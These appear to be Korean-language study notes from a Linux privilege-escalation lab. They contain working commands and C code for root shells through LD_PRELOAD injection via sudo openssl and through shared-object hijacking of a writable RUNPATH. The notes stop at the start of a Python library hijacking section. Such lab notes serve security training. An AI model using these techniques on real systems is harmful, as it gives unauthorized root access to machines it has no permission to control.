 $ gcc -o ex exploit.c
$ ./ex
```

<br/><br/>
# 공유 라이브러리
```ldd /bin/ls```

## LD_PRELOAD 권한 상승
```
$ sudo -l
User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
$ cat > root.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

$ gcc -fPIC -shared -o root.so root.c -nostartfiles
$ cp root.so /tmp/.
$ sudo LD_PRELOAD=/tmp/root.so /usr/bin/openssl
```

<br/><br/>
# 공유 객체 하이재킹
```ldd payroll```
```
readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```
```ls -la /development/```<br/>
```ldd payroll```<br/>
```cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so```<br/>
```./payroll```
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
```gcc src.c -fPIC -shared -o /development/libshared.so```<br/>
```./payroll ```

<br/><br/>
# 파이썬 라이브러리 하이재킹

## 잘못된 쓰기 권한

### 파이썬 스크립트 - Contents
```python
#!/usr/bin/env python3
import psutil

available_memory = psutil.virtual_memory().available * 100 / psutil.virtual_memory().total
```